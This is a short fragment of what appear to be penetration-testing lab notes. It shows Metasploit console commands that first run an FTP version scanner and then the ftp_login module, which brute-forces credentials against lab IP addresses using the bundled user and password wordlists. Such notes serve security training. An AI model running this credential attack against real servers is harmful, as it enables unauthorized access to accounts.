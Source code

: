 ```bash
msf5 > search type:auxiliary name:ftp
msf5 > use auxiliary/scanner/ftp/ftp_version
msf5 > set RHOSTS 192.5.160.3
msf5 > run
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> **`auxiliary/scanner/ftp/ftp_login`**

```bash
msf5 > search type:auxiliary name:ftp
msf5 > use auxiliary/scanner/ftp/ftp_login
msf5 > show options
msf5 > set RHOSTS 192.146.175.3
msf5 > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 > run
```
